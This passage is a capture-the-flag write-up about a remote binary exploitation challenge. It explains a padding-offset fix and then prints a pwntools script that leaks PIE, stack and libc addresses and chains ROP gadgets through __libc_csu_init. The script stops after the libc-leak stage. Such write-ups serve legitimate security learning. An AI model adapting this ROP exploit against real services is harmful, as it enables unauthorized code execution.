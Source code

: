 # Remote Exploit

I was having difficulties getting a shell on the remote even though the local exploit works fine with the provided docker image.
I knew my leaks were correct otherwise the libc leak would not end so perfectly with `000`. This lead me to assume only the last stage of my exploit was failing.

Turns out the amount of padding for the `call_system` payload was not 0x47.

I brute forced that value buy changing the size of the padding and then ropping back to main and testing on the remote service.
With a padding of 0x41, my exploit successfully ropped back to main. 

Final remote exploit:
```python
from pwn import *
context.binary = elf = ELF("./vuln")
libc = ELF("./lib/libc.so.6")

io = remote("pwn.zh3r0.cf", 1111)

name = b"A"*8
io.sendlineafter(b"name: ",name)
io.readuntil(name)
pie_leak = u64(io.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
print("PIE: " + hex(pie_leak))
elf.address = pie_leak

message  = b"A"*0x20
message += b"B"*8
message += p64(elf.symbols['vuln']+0x18)
io.sendlineafter(b"message now: ",message)

io.clean()

second_name  = b"A"*8 #x29
second_name += p64(elf.symbols['vuln']+0x1c) #x30
second_name += b"A"*32 # junk
second_name += b"A"*8 #x29
second_name += p64(elf.symbols['main']) #x30
second_name += b"A"*0x37 # more junk to bring size to 0x77
io.sendline(second_name)
io.readline()
stack_leak = u64(io.readline().strip().ljust(8,b"\x00")) - 280
print("Stack Leak: " + hex(stack_leak))

io.sendline("Rondo") #name

csu_popper = elf.symbols['__libc_csu_init']+104
csu_caller = elf.symbols['__libc_csu_init']+72

leak_libc_payload = b""
leak_libc_payload += b"B"*0x47
leak_libc_payload += p64(csu_popper)
leak_libc_payload += p64(elf.symbols['printf']) # x29 #stack_leak points to this
leak_libc_payload += p64(csu_caller) # x30
leak_libc_payload += p64(0) # x19 needs to be 0
leak_libc_payload += p64(0) # x20 junk
leak_libc_payload += p64(stack_leak) # x21 call*
leak_libc_payload += p64(elf.got['printf'])# x22 x0
leak_libc_payload += p64(elf.symbols['vuln']+0x30) # x23 x1
leak_libc_payload += p64(0) # x24 x2

io.sendline(leak_libc_payload)
```